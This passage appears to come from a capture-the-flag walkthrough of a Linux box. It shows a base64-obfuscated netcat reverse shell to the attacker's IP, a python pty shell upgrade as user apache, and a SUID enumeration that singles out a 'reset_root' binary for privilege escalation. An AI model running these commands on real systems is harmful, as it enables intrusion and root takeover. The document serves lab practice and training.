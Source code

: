 i need to put this on the CLI (my ip encrypted) 
```c
echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTAwLjQgNDQ0NAo=' | base64 -d | bash
```
 
 we are in but we are not root
 ```c
python -c 'import pty;pty.spawn("/bin/bash")'
bash-5.1$ whoami
whoami
apache
bash-5.1$ 
```

## PRIVILEGE SCALATION ##

Lets check our "SUIDS" and check if there's any way to scale to root privileges

```c
find / -perm -u=s 2>/dev/null
```

```c
bash-5.1$ find / -perm -u=s 2>/dev/null
find / -perm -u=s 2>/dev/null
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/bin/sudo
/usr/bin/reset_root
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
bash-5.1$ 
```
the reset_root it can be a key important 

we are going to see what kind of archive is , and if we can read it as humans

file /usr/bin/reset_root

```c
bash-5.1$ file /usr/bin/reset_root
file /usr/bin/reset_root
/usr/bin/reset_root: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4851fddf6958d92a893f3d8042d04270d8d31c23, for GNU/Linux 3.2.0, not stripped
bash-5.1$ 
```
